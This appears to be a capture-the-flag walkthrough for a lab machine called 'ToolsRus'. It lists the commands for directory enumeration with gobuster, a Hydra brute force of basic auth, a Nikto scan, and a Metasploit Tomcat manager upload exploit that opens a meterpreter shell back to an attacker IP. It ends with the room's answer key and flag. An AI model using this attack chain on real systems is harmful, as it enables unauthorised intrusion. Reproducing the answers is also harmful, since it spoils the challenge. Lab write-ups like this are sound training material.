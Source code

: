 # ToolsRus - Easy

```shell
nmap -T4 -A 10.10.75.77

gobuster dir -u http://10.10.75.77 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak

gobuster dir -u http://10.10.75.77:1234 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak

hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.75.77 http-get "/protected"
#cracks the creds

nikto -h http://10.10.75.77:1234/manager/html -id bob:bubbles
#nikto scan with creds

msfconsole
#following the exploit found on Google

use exploit/multi/http/tomcat_mgr_upload

show options

set HttpPassword bubbles

set HttpUsername bob

set RHOSTS 10.10.75.77

set RPORT 1234

set LHOST 10.11.85.177

run
#run the exploit
#this gives us meterpreter shell

getuid
#we are root

cat /root/flag.txt
#root flag
```

```markdown
nmap scan gives the following open ports and services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18
  * 1234 - http - Apache Tomcat (7.0.88) / Coyote JSP engine 1.1
  * 8009 - ajp13 - Apache Jserv (v1.3)

Using gobuster, we look for web directories:

  * /guidelines
  * /index.html
  * /protected

From the /guidelines page, we get the name 'bob' and the text hints us about a TomCat vulnerability.

Also, the /protected page has basic authentication, so we need to find valid creds.

We can use Hydra to crack the password for /protected; as it is using basic authentication, we have to use 'http-get' in Hydra.

Even though the credentials are authenticated in base64, as it is basic authentication, we just need to use the standard Hydra command for http-get.

Cracking it gives us the creds bob:bubbles; after logging in, the /protected page shows that it has moved to a different port, referring to port 1234.

We also check the web server on port 1234, which is running Apache Tomcat/7.0.88.

Using gobuster, we look for web directories on port 1234:

  * /docs
  * /examples
  * /favicon.ico
  * /host-manager
  * /manager

Now, according to the given instructions, we need to use the creds in /manager/html on port 1234 and scan the page using Nikto.

We need to search for the exploit now which will give us a shell; we need to do so by using the versions of the services enumerated earlier.

Googling for 'Apache Coyote 1.1 exploit' leads us to <https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote>, which covers getting a shell in msfconsole.

We will use the tomcat_mgr_upload to get shell as we have the creds bob:bubbles for access.
```

1. What directory can you find, that begins with a "g"? - guidelines

2. Whose name can you find from this directory? - bob

3. What directory has basic authentication? - protected

4. What is bob's password to the protected part of the website? - bubbles

5. What other port that serves a web service is open on the machine? - 1234

6. Going to the service running on that port, what is the name and version of the software? - Apache Tomcat/7.0.88

7. How many documentation files did Nikto identify? - 5

8. What is the server version? - Apache/2.4.18

9. What version of Apache-Coyote is this service running? - 1.1

10. What user did you get a shell as? - root

11. What text is in the file /root/flag.txt? - ff1fc4a81affcc7688cf89ae7dc6e0e1
